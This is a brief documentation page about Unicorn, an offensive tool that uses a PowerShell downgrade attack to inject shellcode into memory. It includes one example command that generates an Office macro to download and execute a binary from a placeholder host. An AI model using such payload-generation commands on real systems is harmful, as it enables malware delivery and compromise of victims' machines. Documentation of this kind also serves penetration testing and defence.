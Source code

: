 ```yaml
---
description: >-
  Unicorn is a simple tool for using a PowerShell downgrade attack and inject
  shellcode straight into memory. Based on Matthew Graeber's powershell attacks
  and the powershell bypass technique.
---
```


# Unicorn

## Examples

Generating a macro that will download and execute a binary:

```text
python2 unicorn.py windows/download_exec url=http://badurl.com/payload.exe macro
```

